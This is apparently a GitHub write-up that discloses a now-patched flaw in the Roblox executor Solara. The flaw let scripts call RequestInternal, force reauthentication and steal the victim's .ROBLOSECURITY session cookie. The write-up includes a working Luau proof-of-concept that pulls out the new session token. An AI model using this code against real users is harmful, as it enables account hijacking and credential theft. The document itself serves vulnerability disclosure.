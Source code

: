 # Solara Stealer PoC
Writeup on stealing roblox accounts with Solara

# Disclaimer
**This is now patched**. (as of 06/19/2024)

You can view a script I made to steal a Roblox account's information [here](stealer.lua)

# Introduction
[RequestInternal](https://robloxapi.github.io/ref/class/HttpService.html#member-RequestInternal) is a 'CoreScript' function in Roblox that allows the Roblox engine to interact with Roblox’s internal web APIs. This function is essential for interacting with Roblox's web API's as the user. This write-up will focus on its use in session hijacking, and other potential uses.

# Session Hijacking via Reauthentication
Under the "[Roblox authentication web API](https://auth.roblox.com/docs/index.html)", a feature exists under the name "logoutfromallsessionsandreauthenticate". It does exactly what the name suggests, it takes the input '.ROBLOSECURITY' session, invalidates it, then gives you a new one to reauthenticate with.

Now, with 'RequestInternal', you cannot use the function with a normal LocalScript, as if you could you could perform actions maliciously using the user's cookie(s). The issue, is that Solara, did not block this function for use in the execution, therefore the user using Solara is vulnerable to the exploitation of 'RequestInternal'.

# PoC of account hijacking
https://streamable.com/837cg4

# Example of Session Hijacking
```luau
-- httpservice
local httpService = game:GetService("HttpService")

-- data for the request
local data = {
    Url = "https://auth.roblox.com/v1/logoutfromallsessionsandreauthenticate", -- url for reauthentication
    Method = "POST", -- send a POST request
    Body = "{}" -- placeholder
}
-- this request will be sent with the user's cookies
local request = httpService:RequestInternal(data)

-- success is a boolean - whether or not the request was a success (?)
-- response is the dict of response data:
--[[
    response.Body: string
    response.Headers: table (dict)
    response.StatusCode: number
]]
    -- start the request
request:Start(function(success, response) 
    local headers = response.Headers -- get the response headers
    local cookie = headers["set-cookie"] -- get the cookies sent from the server
    local session = cookie:split(";")[1] -- get the raw cookie text without expiration shi

    print(session) -- output the reauthenticated session
end)
```

# Conclusion
Solara needs to disallow exploiters from being able to use the 'RequestInternal' function.
